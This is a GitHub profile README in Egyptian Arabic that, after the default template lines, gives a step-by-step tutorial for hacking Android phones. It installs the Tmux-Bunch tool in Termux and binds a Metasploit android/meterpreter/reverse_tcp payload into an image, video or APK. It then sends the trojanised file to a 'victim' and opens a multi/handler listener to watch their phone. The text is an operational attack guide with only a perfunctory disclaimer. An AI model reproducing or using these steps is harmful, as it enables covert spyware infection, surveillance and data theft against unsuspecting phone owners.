 - 👋 Hi, I’m @Maroune123455432112345
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Maroune123455432112345/Maroune123455432112345 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
السلام عليكم ورحمة الله وبركاته
معكم اخوكم بودي شخصيا
النهارده هنشرح ليكم بالتفصيل الممل اختراق الهواتف بصوره فقط بدمج البايلود دمج بايلود اختراق مع صوره او تطبيق او فيديو.
بسم الله الرحمن الرحيم 
لازم الاول نثبت ونجروك لفتح بورت٤٤٤٤ metasploit
اولا هنثبت اداه tmux bunch
الاومر بالترتيب : 
pkg install git

git clone https:/*/github.*com/Hax4us*/Tmux-Bunch

cd Tmux-Bunch

ls

chmod +x setup

./setup

./tmuxbunch
تمم بعدها 
تفتح صفحه جديده وتكتب الامر ده 
يجب علي الصورة او الفيديو او التطبيق ان تكون في الصفحة الرئيسية للذاكرة الداخلية علي الهاتف
cd /sdcard
ls
وتكون مجهز الصور او الفيديو  او التطبيق اللي هنبطق عليه 
مثلا هنجرب علي صوره 
هتكتب كده 
mv sharks.JPN $HOME
معلومات مهمة .
...................................................

mv امر نقل 
sharks.JPN هي مثل لاسم الصورة او الفيديو او التطبيق
ملحوظة مهمة جدا عند كتابة اسم الصورة او الفيديو او التطبيق يجب ان يكون اسمها كلمة واحدة يعني مثلا  aaa.(jpg / JPN / mp4 /apk)  اذا لم تقوم بذلك سوف يحدث خطا معك
$home هو تخزين ترمكس  
....................................................

....................................................

cd $HOME

ls

mv sharks.JPN Tmux-Bunch 

ls

 cd Tmux-Bunch/

 ls

 mv Sharks. JPN binder/

 ls
 اكتب رقم 6 والاده هتفتح  مجلد binder اللي نقلنا فيه الصوره او الفيديو او التطبيق اللي عايزين  نلغمه تمم بعده اكتب رقم واحد لدمج فيه بايلود ميتاسبلويت انتر 

بعدها هيطلب منك الهوست وهو الايبي بتاعك لمعرفه الايبي افتح صفحه جديده واكتب 
ifconfig
هيظهرلك الايبي بتاعك علي الهيئه ديها زي كده 192.156.1.1 
بعد كده دوس انتر 
بعدها هيطلب منك البورت ممكن تكتب 8888/4444
 انتر بعدها حط اسم الي عايز تلغمو بدون الصيغه يعني الصوره بدون JPN  بعدها انتر وهيقوم بدمج بايلود في الصوره الي نقلنه لا ملف binder بعد دمج بايلود دوس انتر مرتين اكتب رقم 10 للخروج من الاداه انتر 

بعدها بعد الخروج 

 ls

 cd embout 

 ls 
دلوقتي هتلاقي صوره ملغمه خاصه بيك بالبيلود ميتاسبلويت    ننقله للملفات عن طريق امر

 mv sharks.JPN $HOME

(29) cd ../..

لعرض الملفات 

 ls

وبعدها ننقلو للملفات عن طريق امر sdcard 

mv sharks. JPN /sdcard 
بعدها 
 ls 
دلوقتي نفتح الذاكره الداخليه هنلاقي صوره قمده ملغمه بتعتنا 
هتبعتها للضحيه  

 دلوقتي هنفتح الميتاسلبوت 
./msfconsole

دلوقتي لو الضحيه فتح الصوره هنفتح جلسه تلصص علي الضحيه هه😂😢

لفتح الجلسه

use exploit/multi/handler

بعدها 
 set payload android/meterpreter/reverse_tcp

بعدها 
 set LHOST 192.168.1.6

بعدها 
 set Lport 4444

دلوقتي نشغل جلسات ميتا ونشغل الصوره الملغمه الأمر 

 run 

بعد مايفتح الصوره الملغمه  هتشوف كل اللي عندو

تحذير برجاء استخدام الشرح هذا لمساعدة الناس وأشياء انسانيه وأنا غير مسؤول عن سوء استخدامكم انتم ستعاقبون من الله،وانا سوف اعاقب اي شخص يقوم بالضرر لأي شخص دون سبب مقنع وأيضا لدي طريقه حمايه نفسك من هذه الطرق لختراقك
المصدر
t.me/Boody7766
